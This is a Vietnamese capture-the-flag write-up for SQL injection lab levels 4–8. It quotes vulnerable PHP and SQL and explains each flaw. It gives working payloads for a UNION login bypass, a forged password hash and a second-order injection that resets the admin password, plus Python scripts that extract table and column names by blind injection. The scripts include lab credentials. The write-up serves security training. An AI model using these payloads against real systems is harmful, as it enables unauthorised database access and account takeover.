





# Level 4:

```
username=/&password=) union select 'admin' #
```
 ---
# Level 5:


```php
<?php
function loginHandler($username, $password)
{
	try {
		include("db.php");
		$database = make_connection("hashed_db");

		$sql = "SELECT username, password FROM users WHERE username='$username'"; // <- 1. untrusted data + không escape
		$query = $database->query($sql);      // <- 2. dùng query trên để truy vấn xuống DB
		$row = $query->fetch_assoc();         // <- 3. fetch_assoc() để lấy dòng đầu tiên -> lưu RAM (ở đây là bug vì lưu ram có thể manipulate được)

		if ($row === NULL)
			return "Username not found";

		$login_user = $row["username"];
		$login_password = $row["password"];

		if ($login_password !== md5($password))    // <- 4. bước này kể cả có check, cũng chỉ check RAM, nên ta có thể thay đổi giá trị password hash mong muốn
			return "Wrong username or password";

		if ($login_user === "admin")
			return "Wow you can log in as admin, here is your flag CBJS{FAKE_FLAG_FAKE_FLAG}, but how about <a href='level6.php'>THIS LEVEL</a>!";
		else
			return "You log in as $login_user, but then what? You are not an admin";
	} catch (mysqli_sql_exception $e) {
		return $e->getMessage();
	}
}
```
- Có 3 yếu tố khiến đoạn code lỗi:
1. untrusted data nẳm ngay câu query mà không hề sanitize
2. input được xem là một phần của câu query (attacker đè dấu nháy đơn vô là đóng được chuỗi rồi thực thi lệnh ở sau)
3. lấy username và password từ db xong lưu lên RAM một cách ngây thơ, từ đó attacker thay đổi được chuỗi password hash đó bằng chính việc escape ra khỏi yếu tố 1 rồi ghi đè lên password = md5(123)
```
username=' UNION SELECT 'admin', md5('123') -- &password=123
```
- Ở đây có thể thấy được password gốc là:

- PoC rằng sau khi làm giả md5 hash có thể thấy password đã thay đổi theo đoạn string mà ta mong muốn


---
# Level 6
- Tên bảng: posts_db
```sql
-- số lượng ký tự trong tên bảng không phải 'posts'
SUBSTRING((SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=0x706f7374735f6462 AND table_name != 0x706f737473 LIMIT 1),1,1)=1 #
-- từ payload này đã xác định được tên của bảng có tên không phải là 'post' có 7 ký tự
```
- Lấy số lượng cột trong bảng:
```sql
(SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=0x706f7374735f6462)=1 #
```

```sql
-- exfiltrate từng ký tự trong bảng có tên không phải là 'posts'
SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema='posts_db' AND table_name != 'posts' LIMIT 0,1),1,1) = 'a' #
```
- đã thử thành công với vị trí số 1:

- bây giờ là viết script python để exfiltrate hết toàn bộ 7 ký tự (có thể làm tay nhưng viết script đi cho giống hắc cơ)
```python
import requests
from urllib.parse import quote

url = "https://sqli.cyberjutsu-lab.tech"
flag = ""
index = 1
chars = "0x61,0x0a,0x62,0x0a,0x63,0x0a,0x64,0x0a,0x65,0x0a,0x66,0x0a,0x67,0x0a,0x68,0x0a,0x69,0x0a,0x6a,0x0a,0x6b,0x0a,0x6c,0x0a,0x6d,0x0a,0x6e,0x0a,0x6f,0x0a,0x70,0x0a,0x71,0x0a,0x72,0x0a,0x73,0x0a,0x74,0x0a,0x75,0x0a,0x76,0x0a,0x77,0x0a,0x78,0x0a,0x79,0x0a,0x7a,0x0a,0x7e,0x0a,0x21,0x0a,0x40,0x0a,0x23,0x0a,0x24,0x0a,0x25,0x0a,0x5e,0x0a,0x26,0x0a,0x2a,0x0a,0x28,0x0a,0x29,0x0a,0x2d,0x0a,0x5f,0x0a,0x2b,0x0a,0x3d,0x0a,0x7b,0x0a,0x7d,0x0a,0x5d,0x0a,0x5b,0x0a,0x7c,0x0a,0x5c,0x0a,0x60,0x0a,0x2c,0x0a,0x2e,0x0a,0x2f,0x0a,0x3f,0x0a,0x3b,0x0a,0x3a,0x0a,0x27,0x0a,0x22,0x0a,0x3c,0x0a,0x3e,0x0a,0x31,0x0a,0x32,0x0a,0x33,0x0a,0x34,0x0a,0x35,0x0a,0x36,0x0a,0x37,0x0a,0x38,0x0a,0x39,0x0a,0x30,0x0a"

char_list = chars.split(",")

while index <= 8:
    for c in char_list:

        print(f"Trying: {c}")
        payload = f'99 OR (SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=0x706f7374735f6462 AND table_name != 0x706f737473 LIMIT 0,1),{index},1)) = {c} #'

        # print(char_list)

        payload = '/basic/level6.php?id=' + quote(payload)
        res = requests.get(url + payload, auth=("sqlilab", "3c9s9p7pzo9w"))
        print(f"Header: {res.headers.get('Content-Length')}")
        header_size = res.headers.get('Content-Lenght')
        if header_size and int(header_size) >= 394:
            index += 1
            char = chr(int(c, 16))
            flag += char
            print(f"Found: {flag}")
            break
```
- Tìm được bảng 'secret6'
```
[ kendual] ~/Test/sql-injection   master  ➜ python level-6-bruteforce.py
Found: s
Found: se
Found: sec
Found: secr
Found: secre
Found: secret
Found: secret6
```
- Bây giờ là tìm số lượng tên cột
```python
import requests
from urllib.parse import quote

url = "http://localhost:24001"
flag = ""
index = 1
chars = "0x61,0x0a,0x62,0x0a,0x63,0x0a,0x64,0x0a,0x65,0x0a,0x66,0x0a,0x67,0x0a,0x68,0x0a,0x69,0x0a,0x6a,0x0a,0x6b,0x0a,0x6c,0x0a,0x6d,0x0a,0x6e,0x0a,0x6f,0x0a,0x70,0x0a,0x71,0x0a,0x72,0x0a,0x73,0x0a,0x74,0x0a,0x75,0x0a,0x76,0x0a,0x77,0x0a,0x78,0x0a,0x79,0x0a,0x7a,0x0a,0x7e,0x0a,0x21,0x0a,0x40,0x0a,0x23,0x0a,0x24,0x0a,0x25,0x0a,0x5e,0x0a,0x26,0x0a,0x2a,0x0a,0x28,0x0a,0x29,0x0a,0x2d,0x0a,0x5f,0x0a,0x2b,0x0a,0x3d,0x0a,0x7b,0x0a,0x7d,0x0a,0x5d,0x0a,0x5b,0x0a,0x7c,0x0a,0x5c,0x0a,0x60,0x0a,0x2c,0x0a,0x2e,0x0a,0x2f,0x0a,0x3f,0x0a,0x3b,0x0a,0x3a,0x0a,0x27,0x0a,0x22,0x0a,0x3c,0x0a,0x3e,0x0a,0x31,0x0a,0x32,0x0a,0x33,0x0a,0x34,0x0a,0x35,0x0a,0x36,0x0a,0x37,0x0a,0x38,0x0a,0x39,0x0a,0x30,0x0a"
char_list = chars.split(",")

while index <= 8:
    for c in char_list:
        cmd = f'99 OR SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name=0x73656372657436 LIMIT 0,1),{index},1) = {c} #'

        payload = '/basic/level6.php?id=' + quote(cmd)
        res = requests.get(url + payload, auth=("sqlilab", "3c9s9p7pzo9w"))
        header_size = res.headers.get('Content-Length')
        if header_size and int(header_size) >= 394:
            index += 1
            char = chr(int(c, 16))
            flag += char
            print(f"Found: {flag}")
            break
```
-  Tìm được cột tên 'content'
```
[ kendual] ~/Test/sql-injection   master  ➜ python level-6-get-column-name.py 
Found: c
Found: co
Found: con
Found: cont
Found: conte
Found: conten
Found: content
```
- bây giờ là bước đọc nội dung bên trong cột 'content' của bảng 'secret6', do bây giờ đã viết tên bảng và tên cột nên payload sẽ đơn giản hơn rất nhiều
```python
import requests
from urllib.parse import quote

url = "http://localhost:24001"
flag = ""
index = 1
chars = "0x61,0x0a,0x62,0x0a,0x63,0x0a,0x64,0x0a,0x65,0x0a,0x66,0x0a,0x67,0x0a,0x68,0x0a,0x69,0x0a,0x6a,0x0a,0x6b,0x0a,0x6c,0x0a,0x6d,0x0a,0x6e,0x0a,0x6f,0x0a,0x70,0x0a,0x71,0x0a,0x72,0x0a,0x73,0x0a,0x74,0x0a,0x75,0x0a,0x76,0x0a,0x77,0x0a,0x78,0x0a,0x79,0x0a,0x7a,0x0a,0x7e,0x0a,0x21,0x0a,0x40,0x0a,0x23,0x0a,0x24,0x0a,0x25,0x0a,0x5e,0x0a,0x26,0x0a,0x2a,0x0a,0x28,0x0a,0x29,0x0a,0x2d,0x0a,0x5f,0x0a,0x2b,0x0a,0x3d,0x0a,0x7b,0x0a,0x7d,0x0a,0x5d,0x0a,0x5b,0x0a,0x7c,0x0a,0x5c,0x0a,0x60,0x0a,0x2c,0x0a,0x2e,0x0a,0x2f,0x0a,0x3f,0x0a,0x3b,0x0a,0x3a,0x0a,0x27,0x0a,0x22,0x0a,0x3c,0x0a,0x3e,0x0a,0x31,0x0a,0x32,0x0a,0x33,0x0a,0x34,0x0a,0x35,0x0a,0x36,0x0a,0x37,0x0a,0x38,0x0a,0x39,0x0a,0x30,0x0a"

char_list = chars.split(",")

while index <= 8:
    for c in char_list:

        payload = f'99 OR (SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=0x706f7374735f6462 AND table_name != 0x706f737473 LIMIT 0,1),{index},1)) = {c} #'
        payload = f'99 OR SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name=0x73656372657436 LIMIT 0,1),{index},1) = {c} #'

        payload = '/basic/level6.php?id=' + quote(payload)
        res = requests.get(url + payload, auth=("sqlilab", "3c9s9p7pzo9w"))
        header_size = res.headers.get('Content-Length')
        if header_size and int(header_size) >= 394:
            index += 1
            char = chr(int(c, 16))
            flag += char
            print(f"Found: {flag}")
            break
```

---
# Level 7
- Query trong backend code như thế này:
```sql
-- Register
INSERT INTO users(username, password, email) VALUES (?, ?, ?)
-- Show profile
SELECT email FROM users WHERE username='$username' <- untrusted data nè
```

```sql
-- register: username=' + payload bên dưới (nhưng khúc này bị đi sai hướng :v )
UNION SELECT table_name FROM information_schema.tables WHERE table_name != 'users'; #
		|
		|  /* tìm được bảng tên 'test' */
		v
UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='test'; #
		|  /* backend code chỉ lấy một dòng -> có thể gom nhiều dòng thành một bằng cách sử dụng `group_concat()` */
		|  /* tìm được tên bảng là username,password */
		v
UNION SELECT GROUP_CONCAT(username) FROM test; #
		|
		|  /* tìm được 2 username: aan,bo8 */
		v
UNION SELECT GROUP_CONCAT(password) FROM test; #
		|
		|  /* tìm được 2 password: haha,mothaiba */
		v
UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_name!='users'; #


/* làm một hồi thì mới nhận ra rằng flag nằm ở table users chứ không phải table nào khác :)) */
UNION SELECT GROUP_CONCAT(username) FROM users; #
		|
		|  /* hình bên dưới */
		v
UNION SELECT password FROM users WHERE username='CBJS_FLAG'; #
		|
		| 
		v
CBJS{FAKE_FLAG_FAKE_FLAG}
```



---
# Level 8
## Dấu hiệu nguy hiểm
### Cách 1:
```sql
UPDATE users SET email='$email' WHERE username='$username'
						  ^                         ^
						  |-----(untrusted data)----|
-- Do ở đây nó update email mà đi nhét hẵn $email vs $username dô cho nên là dính chưởng --
```
- Từ đây nên tính năng update bị kiểm soát rồi -> đăng ký đại một tài khoản sau đó đăng nhập rồi vào /update.php
```sql
/* Do trong code có hàm update nên chèn này dô update ké luôn password của admin :))) */
', password=md5('123') WHERE username='admin' -- 
```
> Sau đó cứ đăng nhập vào admin với password đã update là xong



### Cách 2:
- Vì ở /update.php, biến `$username` cũng được truyền thẳng vào câu query nên lòi ra cách 2 là đặt `username=admin' --`, sau đó `/update.php` nhập vào là , `password=md5('123')`
 
---
# Bài học
- Build payload từ nhỏ -> lớn *(bắt đầu với payload đơn giản để phát hiện lỗi cú pháp (`'`, `"`, `\`, `)`, v.v.), rồi tăng dần độ phức tạp để xác định kiểu injection, số cột, tên bảng,...)*
- Cứ dựa theo tính năng mình thấy mà đoán backend theo pipeline
	1. Loại DB gì + phiên bản? (từ đó search ra vuln thường gặp trên phiên bản)
	2. Chỗ nào injection được? (URL parameters, form fields, User-Agent, Referer, Cookie, X-Forwarded-For,...)
	3. Có vuln với SQL injection không? (proof?)
	4. Loại SQL injection nào? (First order, second order, blind,..)
	5. Build payload